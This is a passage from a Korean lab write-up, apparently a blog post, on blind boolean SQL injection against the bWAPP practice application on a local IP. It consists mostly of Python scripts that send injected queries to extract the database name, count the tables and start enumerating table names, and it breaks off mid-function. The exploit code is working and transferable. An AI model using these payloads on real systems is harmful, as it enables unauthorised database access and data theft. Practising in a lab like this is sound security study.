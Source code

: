 ```python
def table_count():
    cnt=0
    while 1:
        cnt+=1
        url=f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or (select count(*) from information_schema.tables where table_schema='bwapp')={cnt}%23&action=search"
        res=requests.get(url,cookies=cookies)
        if "The movie exists in our database!" in res.text:
                print(cnt)
                break
        else:
            print(url)
```

![그림 1-6](/assets/image/bwapp/injection/sqli-blind-boolean-archive/image-5.png)
- bwapp 데이터베이스 내에 존재하는 테이블의 개수를 파악했다.
- 이러한 형태로 계속해서 코드를 작성해나갔다.

```python
import  requests, string

cookies={"PHPSESSID":"7610604104eefaf9c3b2bd6c624663b4", "security_level":"0","BEEFHOOK":"UhoQoFNoEivNNG7EheQSAIsf8yrWl2cCOaY1uXgrLizZDIE3F6QYDxbWZ3vLOnqtvLxBoUX7D3L6LmPP" }
def db_name():
    ch=''
    stringlist=string.ascii_letters+string.digits+string.punctuation
    for i in range(1,6):
        for j in stringlist:
            url = f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or substring(database(),{i},1) = '{j}'%23&action=search"
            res=requests.get(url, cookies=cookies)
            if "The movie exists in our database!" in res.text:
                ch+=j
                break
    print(f"MySQL 기준 현재 사용중인 DB명은{ch}입니다.")
def table_count():
    cnt=0
    while 1:
        cnt+=1
        url=f"http://192.168.146.133/bWAPP/sqli_4.php?title=' or (select count(*) from information_schema.tables where table_schema='bwapp')={cnt}%23&action=search"
        res=requests.get(url,cookies=cookies)
        if "The movie exists in our database!" in res.text:
                print(f"현재 데이터베이스 내의 존재하는 테이블은{cnt}가지 입니다.")
                return cnt
                break
def table(table_count):
    len_arr=[]
    str_arr=[]
    ch=''
    stringlist=string.ascii_letters+string.digits+string.punctuation
    for i in range(table_count):
        length=1
        while 1:
```